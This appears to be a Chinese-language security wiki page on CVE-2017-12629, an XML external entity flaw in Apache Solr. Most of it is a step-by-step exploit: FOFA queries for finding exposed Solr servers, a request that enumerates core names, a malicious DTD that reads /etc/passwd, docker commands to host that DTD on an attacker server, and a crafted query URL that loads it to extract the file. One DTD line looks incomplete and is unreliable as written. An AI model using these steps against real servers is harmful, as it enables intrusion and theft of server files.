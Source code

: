 

# CVE-2017-12629 | Apache Solr < 7.1.0 存在XXE漏洞





## 0x00 漏洞说明



`Apache Solr` 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 `Apache Lucene` 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。



## 0x01 影响版本



- <  `Apache Solr 7.1.0` 
- <  `Apache Lucene 7.1.0`



## 0x02 漏洞成因



1.  XML外部实体扩展漏洞发生在XML查询分析器中，默认情况下，任何带有参数deftype=xmlparser的查询请求都可以使用，可以利用该漏洞将恶意数据上传到 `/upload` 请求处理程序或作为Blind XXE使用ftp包装器，以便从Solr服务器读取任意本地文件。





## 0x04 漏洞指纹



fofa:

```
app="apache-Solr"
title="Solr Admin"
```



## 0x05 详细利用过程



首先获取core名称

```json
http://xxxx:8983/solr/admin/cores?indexInfo=false&wt=json

respond:
{
    "responseHeader": {
        "status": 0,
        "QTime": 0
    },
    "initFailures": {
        "xxx": "org.apache.solr.common.SolrException:org.apache.solr.common.SolrException: Could not load conf for core wzhhh: Error loading solr config from /var/solr/data/xxxx/conf/solrconfig.xml"
    },
    "status": {
        "www": {
            "name": "www",  //这里就是core名称
            "instanceDir": "/var/solr/data/demo",
            "dataDir": "/var/solr/data/demo/data/",
            "config": "solrconfig.xml",
            "schema": "managed-schema",
            "startTime": "2022-03-18T17:39:26.215Z",
            "uptime": 935729
        }
    }
}
```



生成恶意 dtd文件

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```



将dtd文件上传至web服务器(这里选择使用docker，将当前目录下的www目录内容映射，并映射docker 80端口到服务器8001)

```
docker pull httpd

docker run -p 8001:80 -v $PWD/www/:/usr/local/apache2/htdocs/ -d --name docker_httpd httpd
```



访问链接进行XXE注入，IP需自己构造，URL `+core+`为 core名

```raw
http://xxx:8983/solr/+core+/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://ip:port/filename.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```



## 0x06 扩展链接



[Apache solr xxe漏洞复现（CVE-2017-12629）](https://www.daimajiaoliu.com/daima/6cbba801699d808)



[docker搭建Apache httpd 文件下載服務器](https://javamana.com/2022/02/202202060357532046.html)



[NVD CVE-2017-12629 Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-12629)



[XXE漏洞利用技巧：从XML到远程代码执行](https://www.freebuf.com/articles/web/177979.html)



## 0x07 联系方式



作者 : BitWiki支持团队
